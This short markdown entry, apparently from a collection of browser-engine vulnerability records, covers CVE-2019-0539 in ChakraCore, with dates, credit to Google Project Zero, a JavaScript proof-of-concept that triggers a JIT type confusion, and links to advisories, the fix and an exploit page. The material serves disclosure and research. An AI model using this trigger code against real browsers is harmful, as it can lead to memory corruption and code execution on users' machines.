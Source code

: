 # CVE-2019-0539

- Report: Oct 2018
- Fix: Jan 2019
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(o, c, value) {
    o.b = 1;

    class A extends c {

    }

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, (function () {}), {});
    }

    let o = {a: 1, b: 2};
    let cons = function () {};

    cons.prototype = o;

    opt(o, cons, 0x1234);

    print(o.a);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0539)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1703)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/788f17b0ce06ea84553b123c174d1ff7052112a0)
- [Exploit](https://github.com/0x43434343/my_exploit/blob/master/cve-2019-0539.html)
